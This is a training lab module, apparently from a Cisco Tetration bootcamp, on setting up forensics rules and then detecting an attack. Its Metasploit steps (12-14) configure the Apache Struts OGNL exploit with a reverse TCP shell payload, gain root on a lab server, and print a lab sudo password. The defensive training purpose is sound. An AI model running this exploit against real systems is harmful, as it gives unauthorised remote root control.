# Cisco Tetration Virtual Bootcamp

Module 06.00  ATT&CK! and Forensics

---


This diagram depicts the flow of traffic that will be used during the lab that calls for you to initiate a live attack from the Kali Linux server running the Metasploit toolkit. This will demonstrate the [MITRE ATT&CK Framework](https://attack.mitre.org/){:target="_blank"} that has been defined by the not-for-profit organization called Mitre Corporation - whose charters and funding come from (among other places) [NIST](https://www.nist.gov/){:target="_blank"}. This is also the organization that maintains ["CVEs" or "Common Vulnerabilities and Exposures"](https://cve.mitre.org/){:target="_blank"} as a part of the ["NVD" or "National Vulnerability Database"](https://nvd.nist.gov/){:target="_blank"}. This framework articulates the systematic approach that virtually every breach consists of. 

This consists of:
1. Initial Access
2. Execution
3. Persistence
4. Privilege Escalation
5. Defense Evasion
6. Credential Access
7. Discovery
8. Lateral Movement
9. Collection
10. Command and Control
11. Exfiltration
12. Impact

You will use this diagram when performing the lab that will have you attack a known vulnerability running on the server hosting the OpenCart webapp tier and then continuing on to accomplish lateral movement to other higher-value targets, such as the DB containing customer info with PII. 

<a href="images/diagrams_010.png"></a>  


---

<a href="https://cisco-tetration-hol-content.s3.amazonaws.com/videos/10_forensics.mp4" style="font-weight:bold" title="Collection Rules Title"> Click here to view a video that demonstrates a live attack and the ability to detect the attack and perform Forensic analysis.</a>

---

### Steps for this Module  
<a href="#step-001" style="font-weight:bold">Step 001 - Navigate to Agent Config</a>  
<a href="#step-002" style="font-weight:bold">Step 002 - Edit the Linux Agent Config Intent</a>  
<a href="#step-003" style="font-weight:bold">Step 003 - Set Forensics to Enabled</a>  
<a href="#step-004" style="font-weight:bold">Step 004 - Navigate to Forensics Config</a>  
<a href="#step-005" style="font-weight:bold">Step 005 - Create a new Rule</a>  
<a href="#step-006" style="font-weight:bold">Step 006 - Enter Rule configuration</a>  
<a href="#step-007" style="font-weight:bold">Step 007 - Create a Profile</a>  
<a href="#step-008" style="font-weight:bold">Step 008 - Configure Profile Details</a>  
<a href="#step-009" style="font-weight:bold">Step 009 - Apply the Profile</a>  
<a href="#step-010" style="font-weight:bold">Step 010 - Connect to the Attack Host</a>  
<a href="#step-011" style="font-weight:bold">Step 011 - Start Metasploit</a>  
<a href="#step-012" style="font-weight:bold">Step 012 - Enter the attack configuration</a>  
<a href="#step-013" style="font-weight:bold">Step 013 - Configure attack details</a>  
<a href="#step-014" style="font-weight:bold">Step 014 - Execute the exploit</a>  
<a href="#step-015" style="font-weight:bold">Step 015 - Navigate to Forensics Analysis</a>  
<a href="#step-016" style="font-weight:bold">Step 016 - Change the time horizon to 1hr</a>  
<a href="#step-017" style="font-weight:bold">Step 017 - Explore the detected attack</a>  
<a href="#step-018" style="font-weight:bold">Step 018 - Examine attack details</a>  
<a href="#step-019" style="font-weight:bold">Step 019 - View process tree</a>  
<a href="#step-020" style="font-weight:bold">Step 020 - View detailed process info</a>  

---

<div class="step" id="step-001"><a href="#step-001" style="font-weight:bold">Step 001</a></div>  

Navigate to Agent Config and Agent Config Intent.

<a href="images/module10_001.png"></a>  


<div class="step" id="step-002"><a href="#step-002" style="font-weight:bold">Step 002</a></div>  

Edit the Linux Config Intent.


<a href="images/module10_002.png"></a>  


<div class="step" id="step-003"><a href="#step-003" style="font-weight:bold">Step 003</a></div>  

Scroll down and click to enable Forensics,  then save the configuration.

<a href="images/module10_003.png"></a>  


<div class="step" id="step-004"><a href="#step-004" style="font-weight:bold">Step 004</a></div>  

Navigate to Security > Forensics Config.

<a href="images/module10_004.png"></a>  


<div class="step" id="step-005"><a href="#step-005" style="font-weight:bold">Step 005</a></div>  

Click on Create Rule.

<a href="images/module10_005.png"></a>  


<div class="step" id="step-006"><a href="#step-006" style="font-weight:bold">Step 006</a></div>  

Enter the rule details as shown below.  The rule is configured to begin recording activity (Follow Process) when a bash shell (/bin/sh or /usr/bin/bash) is launched from a process rather than from a user login, which would normally be the case.

<a href="images/module10_006.png"></a>  


<div class="step" id="step-007"><a href="#step-007" style="font-weight:bold">Step 007</a></div>  

Create a new Profile. A Profile is a set of rules which can then be applied to a group of hosts.  


<a href="images/module10_007.png"></a>  


<div class="step" id="step-008"><a href="#step-008" style="font-weight:bold">Step 008</a></div>  

Enter the name "Custom Profile" and select the Apache Struts Attack rule that we just created.  Then save the profile.  

<a href="images/module10_008.png"></a>  


<div class="step" id="step-009"><a href="#step-009" style="font-weight:bold">Step 009</a></div>  

Under Intents, select the profile we just created under Apply profile and enter the Linux inventory filter in the "to filter" field. This is an Inventory Filter we created previously that matches hosts running Linux.

<a href="images/module10_009.png"></a>   

<div class="step" id="step-010"><a href="#step-010" style="font-weight:bold">Step 010</a></div>  

Open a session to the Attack Host from the Apache Guacamole console.

<a href="images/module10_010.png"></a>  


<div class="step" id="step-011"><a href="#step-011" style="font-weight:bold">Step 011</a></div>  

Enter the command `sudo msfconsole` to start Metasploit.   The sudo password is `tet123$$!`

<a href="images/module10_011.png"></a>  

<div class="step" id="step-012"><a href="#step-012" style="font-weight:bold">Step 012</a></div>  

Enter the following parameters for the attack. The Apache Outside NAT IP can be found in the student Excel workbook.  Use the `ifconfig` command to determine the ATTACK MACHINE IP.  You do not need to exit the msfconsole to run ifconfig use multi/http/struts2_content_type_ognl.

```
set rhost <APACHE OUTSIDE NAT IP>
set rport 8080
set targeturi /showcase.action
set payload linux/x64/shell/reverse_tcp
set lhost <ATTACK MACHINE IP>
set lport 80
```

<a href="images/module10_012.png"></a>  


<div class="step" id="step-013"><a href="#step-013" style="font-weight:bold">Step 013</a></div>

 Enter the command `show options` and review the information you have entered.

<a href="images/module10_013.png"></a>  


<div class="step" id="step-014"><a href="#step-014" style="font-weight:bold">Step 014</a></div>  

Type `exploit`.  The exploit code will be run against Apache Struts application running on the Linux web server,  and if successful should display the message "Command shell session opened".  You have now exploited a system and gained remote command shell access!  

Enter `ls` to do a directory listing on the remote machine.

Enter `whoami` to see that you are logged in as the root user.  This confirms we have full control of the machine.

Run the command `hostnamectl` to display the host details.   

<a href="images/module10_014.png"></a>  


<div class="step" id="step-015"><a href="#step-015" style="font-weight:bold">Step 015</a></div>  

Back in Tetration,  navigate to Forensics Analysis.  

<a href="images/module10_015.png"></a>  


<div class="step" id="step-016"><a href="#step-016" style="font-weight:bold">Step 016</a></div>  

Change the time range to the last hour.  

> It may take a few minutes for the alarms to be triggered.  Refresh the page until you see the alarms appear.

<a href="images/module10_016.png"></a>  


<div class="step" id="step-017"><a href="#step-017" style="font-weight:bold">Step 017</a></div>  

Click to examine the alarm for the hostnamectl command.  

<a href="images/module10_017.png"></a>  


<div class="step" id="step-018"><a href="#step-018" style="font-weight:bold">Step 018</a></div>  

Here we can see the process tree, and an indication of what happened.  A command shell (/bin/sh) was launched from the java process, which is not a normal activity. Then we can see the command that was run,  hostnamectl.  Click on the hostnamectl command to see more details.

<a href="images/module10_018.png"></a>  


<div class="step" id="step-019"><a href="#step-019" style="font-weight:bold">Step 019</a></div>  

Here we can see the forensics details of the command run and the privilege level under which the command was executed (root).   

<a href="images/module10_019.png"></a>  


<div class="step" id="step-020"><a href="#step-020" style="font-weight:bold">Step 020</a></div>  

Examine the other alarms that were generated. These show the initial access where the command shell was spawned from the Java process.  

<a href="images/module10_020.png"></a>  


YOU HAVE FINISHED THIS MODULE


| [Return to Table of Contents](https://tetration.guru/bootcamp/) | [Go to Top of the Page](README.md) | [Continue to the Next Module](../module_07/) |